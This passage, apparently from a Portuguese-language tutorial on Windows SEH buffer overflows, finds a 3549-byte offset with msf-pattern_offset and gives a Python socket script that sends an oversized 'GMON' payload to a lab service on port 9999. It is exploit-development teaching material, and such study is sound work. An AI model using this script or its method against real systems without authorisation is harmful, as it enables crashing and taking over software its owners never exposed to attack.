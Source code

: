 Vamos atualizar em nosso script e reenviar para o programa após reiniciá-lo no Immunity.

![Enumaração do comando.](/img/std/winbof/winbof-52.png)

Sobrescrevemos o endereço do nSEH com os bytes 45336f45, vamos encontrar o offset exato com o msf-pattern_offset.

```bash
$ msf-pattern_offset -l 10007 -q 45336f45
[*] Exact match at offset 3549

```

Temos o offset de 3549 para atingir o endereço de EIP. Vamos atualizar o nosso script e testar com o Immunity.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"B" * 4
payload += b"C" * (offset - 3549 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```
![Enumaração do comando.](/img/std/winbof/winbof-53.png)
